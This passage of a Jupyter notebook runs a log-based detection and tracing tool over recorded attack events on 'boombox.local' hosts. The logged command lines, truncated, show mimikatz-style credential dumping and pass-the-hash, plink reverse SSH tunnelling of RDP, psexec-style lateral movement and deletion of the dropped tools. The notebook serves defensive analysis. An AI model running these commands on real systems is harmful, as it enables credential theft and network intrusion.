entry_29_result = process_individual_entry(
    entry_id=29,
    method_type="type2a",
    time_window_before=180,
    time_window_after=180,
    show_arrows=False,
    enable_recursive=True
)


🔍 PROCESSING ENTRY 30
📋 Entry Information:
   Command: "cmd.exe" /c C:\Windows\Temp\m64.exe privilege::debug sekurlsa::logonPasswords exit 1> C:\Windows\Te...
   Finished Time: 2025-05-04 12:15:18.000000
   Computer: waterfalls.boombox.local
   Suggested EventID: 1

🎯 Detection Parameters:
   Method Type: type1
   EventID: 1
   Search Column: CommandLine
   Search Value: "cmd.exe" /c C:\Windows\Temp\m64.exe privilege::debug sekurlsa::logonPasswords exit 1> C:\Windows\Te...
   Time Window: -180s to +180s
   Recursive Tracing: True

🔍 Performing zero-level detection...
[DEBUG] [03:29:33.514] [INFO] Starting detection for Entry 30
[DEBUG] [03:29:33.515] [INFO] Entry 30: 2025-05-04 12:15:18, totem: 'cmd.exe /c C:\Windows\Temp\m64.exe privilege::debu...'
[DEBUG] [03:29:33.515] [INFO] Searching for totem matches: EventID 1, Computer waterfalls.boombox.local
[DEBUG] [03:29:33.515] [INFO] Time window filtering: 2025-05-04 12:12:18 to 2025-05-04 12:18:18
[DEBUG] [03:29:33.543] [INFO] Events af



In [210]:
# Process Entry 30
entry_30_result = process_individual_entry(
    entry_id=30,
    method_type="type1",
    time_window_before=180,
    time_window_after=180,
    show_arrows=False,
    enable_recursive=True
)


🔍 PROCESSING ENTRY 32
📋 Entry Information:
   Command: "cmd.exe" /c del C:\Windows\Temp\01.txt C:\Windows\Temp\m64.exe...
   Finished Time: 2025-05-04 12:16:58.000000
   Computer: waterfalls.boombox.local
   Suggested EventID: 1

🎯 Detection Parameters:
   Method Type: type1
   EventID: 1
   Search Column: CommandLine
   Search Value: "cmd.exe" /c del C:\Windows\Temp\01.txt C:\Windows\Temp\m64.exe...
   Time Window: -180s to +180s
   Recursive Tracing: True

🔍 Performing zero-level detection...
[DEBUG] [03:29:34.751] [INFO] Starting detection for Entry 32
[DEBUG] [03:29:34.751] [INFO] Entry 32: 2025-05-04 12:16:58, totem: 'cmd.exe /c del C:\Windows\Temp\01.txt C:\Windows\T...'
[DEBUG] [03:29:34.751] [INFO] Searching for totem matches: EventID 1, Computer waterfalls.boombox.local
[DEBUG] [03:29:34.751] [INFO] Time window filtering: 2025-05-04 12:13:58 to 2025-05-04 12:19:58
[DEBUG] [03:29:34.779] [INFO] Events after computer/eventid/time filter: 32
[DEBUG] [03:29:34.781] [INFO] Totem m



In [211]:
# Process Entry 32
entry_32_result = process_individual_entry(
    entry_id=32,
    method_type="type1",
    time_window_before=180,
    time_window_after=180,
    show_arrows=False,
    enable_recursive=True
)


🔍 PROCESSING ENTRY 33
📋 Entry Information:
   Command: copy  C:\Users\gosta\AppData\Local\SystemFailureReporter\plink.exe C:\Users\Public\Downloads\plink.e...
   Finished Time: 2025-05-04 12:17:27.000000
   Computer: theblock.boombox.local
   Suggested EventID: 1

🎯 Detection Parameters:
   Method Type: type1
   EventID: 1
   Search Column: CommandLine
   Search Value: copy  C:\Users\gosta\AppData\Local\SystemFailureReporter\plink.exe C:\Users\Public\Downloads\plink.e...
   Time Window: -180s to +180s
   Recursive Tracing: True

🔍 Performing zero-level detection...
[DEBUG] [03:29:35.503] [INFO] Starting detection for Entry 33
[DEBUG] [03:29:35.503] [INFO] Entry 33: 2025-05-04 12:17:27, totem: 'copy C:\Users\gosta\AppData\Local\SystemFailureRep...'
[DEBUG] [03:29:35.503] [INFO] Searching for totem matches: EventID 1, Computer theblock.boombox.local
[DEBUG] [03:29:35.504] [INFO] Time window filtering: 2025-05-04 12:14:27 to 2025-05-04 12:20:27
[DEBUG] [03:29:35.532] [INFO] Events after 



In [212]:
# Process Entry 33
entry_33_result = process_individual_entry(
    entry_id=33,
    method_type="type1",
    time_window_before=180,
    time_window_after=180,
    show_arrows=False,
    enable_recursive=True
)


🔍 PROCESSING ENTRY 34
📋 Entry Information:
   Command: C:\Users\Public\Downloads\plink.exe -no-antispoof -ssh -N -R 192.168.0.4:13389:10.1.0.6:3389 -l user...
   Finished Time: 2025-05-04 12:18:22.000000
   Computer: theblock.boombox.local
   Suggested EventID: 1

🎯 Detection Parameters:
   Method Type: type1
   EventID: 1
   Search Column: CommandLine
   Search Value: C:\Users\Public\Downloads\plink.exe -no-antispoof -ssh -N -R 192.168.0.4:13389:10.1.0.6:3389 -l user...
   Time Window: -180s to +180s
   Recursive Tracing: True

🔍 Performing zero-level detection...
[DEBUG] [03:29:35.987] [INFO] Starting detection for Entry 34
[DEBUG] [03:29:35.987] [INFO] Entry 34: 2025-05-04 12:18:22, totem: 'C:\Users\Public\Downloads\plink.exe -no-antispoof ...'
[DEBUG] [03:29:35.987] [INFO] Searching for totem matches: EventID 1, Computer theblock.boombox.local
[DEBUG] [03:29:35.988] [INFO] Time window filtering: 2025-05-04 12:15:22 to 2025-05-04 12:21:22
[DEBUG] [03:29:36.016] [INFO] Events after 



In [213]:
# Process Entry 34
entry_34_result = process_individual_entry(
    entry_id=34,
    method_type="type1",
    time_window_before=180,
    time_window_after=180,
    show_arrows=False,
    enable_recursive=True
)


🔍 PROCESSING ENTRY 36
📋 Entry Information:
   Command: C:\Windows\System32\ps.exe...
   Finished Time: 2025-05-04 12:19:34.000000
   Computer: waterfalls.boombox.local
   Suggested EventID: 11

🎯 Detection Parameters:
   Method Type: type2a
   EventID: 11
   Search Column: TargetFilename
   Search Value: C:\Windows\System32\ps.exe...
   Time Window: -180s to +180s
   Recursive Tracing: True

🔍 Performing zero-level detection...
[DEBUG] [03:29:36.924] [INFO] Starting detection for Entry 36
[DEBUG] [03:29:36.924] [INFO] Entry 36: 2025-05-04 12:19:34, totem: 'C:\Windows\System32\ps.exe...'
[DEBUG] [03:29:36.924] [INFO] Searching for totem matches: EventID 11, Computer waterfalls.boombox.local
[DEBUG] [03:29:36.925] [INFO] Time window filtering: 2025-05-04 12:16:34 to 2025-05-04 12:22:34
[DEBUG] [03:29:36.954] [INFO] Events after computer/eventid/time filter: 77
[DEBUG] [03:29:36.956] [INFO] Totem matches found: 1
[DEBUG] [03:29:36.956] [INFO] Single match found - auto-selecting
[DEBUG] [



In [214]:
# Process Entry 36
entry_36_result = process_individual_entry(
    entry_id=36,
    method_type="type2a",
    time_window_before=180,
    time_window_after=180,
    show_arrows=False,
    enable_recursive=True
)


🔍 PROCESSING ENTRY 37
📋 Entry Information:
   Command: C:\Windows\Temp\Nt.dat...
   Finished Time: 2025-05-04 12:21:44.000000
   Computer: waterfalls.boombox.local
   Suggested EventID: 11

🎯 Detection Parameters:
   Method Type: type2a
   EventID: 11
   Search Column: TargetFilename
   Search Value: C:\Windows\Temp\Nt.dat...
   Time Window: -180s to +180s
   Recursive Tracing: True

🔍 Performing zero-level detection...
[DEBUG] [03:29:37.204] [INFO] Starting detection for Entry 37
[DEBUG] [03:29:37.205] [INFO] Entry 37: 2025-05-04 12:21:44, totem: 'C:\Windows\Temp\Nt.dat...'
[DEBUG] [03:29:37.205] [INFO] Searching for totem matches: EventID 11, Computer waterfalls.boombox.local
[DEBUG] [03:29:37.206] [INFO] Time window filtering: 2025-05-04 12:18:44 to 2025-05-04 12:24:44
[DEBUG] [03:29:37.255] [INFO] Events after computer/eventid/time filter: 90
[DEBUG] [03:29:37.257] [INFO] Totem matches found: 1
[DEBUG] [03:29:37.257] [INFO] Single match found - auto-selecting
[DEBUG] [03:29:37.257



In [215]:
# Process Entry 37
entry_37_result = process_individual_entry(
    entry_id=37,
    method_type="type2a",
    time_window_before=180,
    time_window_after=180,
    show_arrows=False,
    enable_recursive=True
)


🔍 PROCESSING ENTRY 38
📋 Entry Information:
   Command: C:\Windows\System32\mom64.exe...
   Finished Time: 2025-05-04 12:22:22.000000
   Computer: waterfalls.boombox.local
   Suggested EventID: 11

🎯 Detection Parameters:
   Method Type: type2a
   EventID: 11
   Search Column: TargetFilename
   Search Value: C:\Windows\System32\mom64.exe...
   Time Window: -180s to +180s
   Recursive Tracing: True

🔍 Performing zero-level detection...
[DEBUG] [03:29:37.500] [INFO] Starting detection for Entry 38
[DEBUG] [03:29:37.501] [INFO] Entry 38: 2025-05-04 12:22:22, totem: 'C:\Windows\System32\mom64.exe...'
[DEBUG] [03:29:37.501] [INFO] Searching for totem matches: EventID 11, Computer waterfalls.boombox.local
[DEBUG] [03:29:37.501] [INFO] Time window filtering: 2025-05-04 12:19:22 to 2025-05-04 12:25:22
[DEBUG] [03:29:37.531] [INFO] Events after computer/eventid/time filter: 53
[DEBUG] [03:29:37.532] [INFO] Totem matches found: 1
[DEBUG] [03:29:37.532] [INFO] Single match found - auto-selecting




In [216]:
# Process Entry 38
entry_38_result = process_individual_entry(
    entry_id=38,
    method_type="type2a",
    time_window_before=180,
    time_window_after=180,
    show_arrows=False,
    enable_recursive=True
)


🔍 PROCESSING ENTRY 39
📋 Entry Information:
   Command: C:\Windows\system32\cmd.exe...
   Finished Time: 2025-05-04 12:23:43.000000
   Computer: waterfalls.boombox.local
   Suggested EventID: 1

🎯 Detection Parameters:
   Method Type: type1
   EventID: 1
   Search Column: CommandLine
   Search Value: C:\Windows\system32\cmd.exe...
   Time Window: -180s to +180s
   Recursive Tracing: True

🔍 Performing zero-level detection...
[DEBUG] [03:29:37.769] [INFO] Starting detection for Entry 39
[DEBUG] [03:29:37.770] [INFO] Entry 39: 2025-05-04 12:23:43, totem: 'C:\Windows\system32\cmd.exe...'
[DEBUG] [03:29:37.770] [INFO] Searching for totem matches: EventID 1, Computer waterfalls.boombox.local
[DEBUG] [03:29:37.770] [INFO] Time window filtering: 2025-05-04 12:20:43 to 2025-05-04 12:26:43
[DEBUG] [03:29:37.798] [INFO] Events after computer/eventid/time filter: 22
[DEBUG] [03:29:37.800] [INFO] Totem matches found: 1
[DEBUG] [03:29:37.800] [INFO] Single match found - auto-selecting
[DEBUG] [03:2



In [217]:
# Process Entry 39
entry_39_result = process_individual_entry(
    entry_id=39,
    method_type="type1",
    time_window_before=180,
    time_window_after=180,
    show_arrows=False,
    enable_recursive=True
)


🔍 PROCESSING ENTRY 40
📋 Entry Information:
   Command: C:\Windows\System32\mom64.exe  ""privilege::debug"" ""sekurlsa::pth /user:tous /domain:boombox /ntlm...
   Finished Time: 2025-05-04 12:23:43.000000
   Computer: waterfalls.boombox.local
   Suggested EventID: 1

🎯 Detection Parameters:
   Method Type: type1
   EventID: 1
   Search Column: CommandLine
   Search Value: C:\Windows\System32\mom64.exe  ""privilege::debug"" ""sekurlsa::pth /user:tous /domain:boombox /ntlm...
   Time Window: -180s to +180s
   Recursive Tracing: True

🔍 Performing zero-level detection...
[DEBUG] [03:29:40.518] [INFO] Starting detection for Entry 40
[DEBUG] [03:29:40.518] [INFO] Entry 40: 2025-05-04 12:23:43, totem: 'C:\Windows\System32\mom64.exe privilege::debug sek...'
[DEBUG] [03:29:40.518] [INFO] Searching for totem matches: EventID 1, Computer waterfalls.boombox.local
[DEBUG] [03:29:40.519] [INFO] Time window filtering: 2025-05-04 12:20:43 to 2025-05-04 12:26:43
[DEBUG] [03:29:40.547] [INFO] Events af



In [218]:
# Process Entry 40
entry_40_result = process_individual_entry(
    entry_id=40,
    method_type="type1",
    time_window_before=180,
    time_window_after=180,
    show_arrows=False,
    enable_recursive=True
)


🔍 PROCESSING ENTRY 41
📋 Entry Information:
   Command: C:\ProgramData\Nt.dat...
   Finished Time: 2025-05-04 12:23:43.000000
   Computer: endofroad.boombox.local
   Suggested EventID: 11

🎯 Detection Parameters:
   Method Type: type2a
   EventID: 11
   Search Column: TargetFilename
   Search Value: C:\ProgramData\Nt.dat...
   Time Window: -180s to +180s
   Recursive Tracing: True

🔍 Performing zero-level detection...
[DEBUG] [03:29:42.566] [INFO] Starting detection for Entry 41
[DEBUG] [03:29:42.566] [INFO] Entry 41: 2025-05-04 12:23:43, totem: 'C:\ProgramData\Nt.dat...'
[DEBUG] [03:29:42.566] [INFO] Searching for totem matches: EventID 11, Computer endofroad.boombox.local
[DEBUG] [03:29:42.566] [INFO] Time window filtering: 2025-05-04 12:20:43 to 2025-05-04 12:26:43
[DEBUG] [03:29:42.594] [INFO] Events after computer/eventid/time filter: 30
[DEBUG] [03:29:42.596] [INFO] Totem matches found: 1
[DEBUG] [03:29:42.596] [INFO] Single match found - auto-selecting
[DEBUG] [03:29:42.596] [IN



In [219]:
# Process Entry 41
entry_41_result = process_individual_entry(
    entry_id=41,
    method_type="type2a",
    time_window_before=180,
    time_window_after=180,
    show_arrows=False,
    enable_recursive=True
)


🔍 PROCESSING ENTRY 42
📋 Entry Information:
   Command: C:\Windows\System32\ps.exe  \\10.1.0.7 cmd.exe...
   Finished Time: 2025-05-04 12:23:43.000000
   Computer: waterfalls.boombox.local
   Suggested EventID: 1

🎯 Detection Parameters:
   Method Type: type1
   EventID: 1
   Search Column: CommandLine
   Search Value: C:\Windows\System32\ps.exe  \\10.1.0.7 cmd.exe...
   Time Window: -180s to +180s
   Recursive Tracing: True

🔍 Performing zero-level detection...
[DEBUG] [03:29:42.847] [INFO] Starting detection for Entry 42
[DEBUG] [03:29:42.847] [INFO] Entry 42: 2025-05-04 12:23:43, totem: 'C:\Windows\System32\ps.exe \\10.1.0.7 cmd.exe...'
[DEBUG] [03:29:42.848] [INFO] Searching for totem matches: EventID 1, Computer waterfalls.boombox.local
[DEBUG] [03:29:42.848] [INFO] Time window filtering: 2025-05-04 12:20:43 to 2025-05-04 12:26:43
[DEBUG] [03:29:42.875] [INFO] Events after computer/eventid/time filter: 22
[DEBUG] [03:29:42.876] [INFO] Totem matches found: 1
[DEBUG] [03:29:42.876] 



In [220]:
# Process Entry 42
entry_42_result = process_individual_entry(
    entry_id=42,
    method_type="type1",
    time_window_before=180,
    time_window_after=180,
    show_arrows=False,
    enable_recursive=True
)


🔍 PROCESSING ENTRY 44
📋 Entry Information:
   Command: C:\ProgramData\VMware...
   Finished Time: 2025-05-04 12:25:18.000000
   Computer: endofroad.boombox.local
   Suggested EventID: 11

🎯 Detection Parameters:
   Method Type: type1
   EventID: 1
   Search Column: CommandLine
   Search Value: C:\ProgramData\VMware...
   Time Window: -180s to +180s
   Recursive Tracing: True

🔍 Performing zero-level detection...
[DEBUG] [03:29:43.721] [INFO] Starting detection for Entry 44
[DEBUG] [03:29:43.722] [INFO] Entry 44: 2025-05-04 12:25:18, totem: 'C:\ProgramData\VMware...'
[DEBUG] [03:29:43.722] [INFO] Searching for totem matches: EventID 1, Computer endofroad.boombox.local
[DEBUG] [03:29:43.722] [INFO] Time window filtering: 2025-05-04 12:22:18 to 2025-05-04 12:28:18
[DEBUG] [03:29:43.750] [INFO] Events after computer/eventid/time filter: 10
[DEBUG] [03:29:43.752] [INFO] Totem matches found: 1
[DEBUG] [03:29:43.752] [INFO] Single match found - auto-selecting
[DEBUG] [03:29:43.752] [INFO] De

